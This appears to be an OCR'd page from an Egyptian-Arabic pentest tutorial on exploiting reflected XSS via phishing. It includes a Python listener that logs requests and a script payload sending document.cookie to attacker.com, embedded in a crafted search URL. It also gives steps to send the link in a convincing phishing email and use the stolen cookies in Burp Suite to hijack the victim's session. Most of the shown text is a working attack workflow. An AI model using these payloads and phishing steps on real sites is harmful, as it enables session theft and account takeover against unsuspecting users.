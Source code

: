      class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
         def do_GET(self):
             self.send_response(200)
             self.end_headers()
             print(f"Received: {self.path}")
             self.wfile.write(b"Data received!")

     httpd = HTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
     httpd.serve_forever()
     ```
   - شغّل السيرفر:
     ```
     python3 server.py
     ```

2. **استخدام Payload لإرسال البيانات:**
   - Payload:
     ```html
     <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - الرابط:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```

3. **اختبار الاستغلال:**
   - ابعت الرابط في حملة Phishing.
   - لما الضحية تفتح الرابط، هتشوف البيانات (زي الكوكيز) في السيرفر.

---

**خلاصة بالعامية:**
السيرفر زي الصندوق اللي بيلمّ الغنيمة. لما الضحية تفتح الرابط، السكربت هيبعتلك البيانات زي الكوكيز، وانت كده مسكت المفتاح.

---

### **3. السيناريوهات الممكنة لاستغلال Reflected XSS via Phishing**
كـ **Pentester**، هنا كل الطرق اللي ممكن تستغل بيها الثغرة مع Phishing:

1. **سرقة الكوكيز (Session Hijacking):**
   - **الوصف**: تبعت رابط Phishing يسرق الكوكيز وتستخدمها عشان تدخل على حساب الضحية.
   - **Payload**:
     ```html
     <script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
     ```
   - **الخطوات**:
     1. صمم إيميل Phishing مقنع.
     2. ابعت الرابط للضحية.
     3. استخدم الكوكيز في Burp Suite عشان تعمل Session Hijacking.
